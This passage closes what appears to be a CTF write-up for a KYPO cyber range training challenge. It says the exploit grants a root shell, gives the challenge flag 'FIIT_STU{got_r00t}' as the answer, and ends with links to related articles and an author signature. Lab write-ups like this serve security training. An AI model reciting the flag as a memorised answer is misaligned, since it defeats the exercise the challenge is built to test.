

Grants a **root shell** and cat the root.txt to get the flag, submit the flag in the Kypo page:



**The correct answer(flag) is**:  `FIIT_STU{got_r00t}`

------

If you are intereset about other article about Kypo CTP and the CTF challenge please refer to:

- [*How to Deploy KYPO_CRP on OpenStack-YOGA*](https://www.linkedin.com/pulse/how-deploy-kypocrp-openstack-yoga-yuancheng-liu-zmjhc)
- [CTF Challenge Write Up : KYPO Locust 3302 Challenge of Blackcat](https://www.linkedin.com/pulse/ctf-challenge-write-up-kypo-locust-3302-blackcat-yuancheng-liu-srkrc)

------

> last edit by LiuYuancheng (liu_yuan_cheng@hotmail.com) by 15/11/2025 if you have any problem, please send me a message.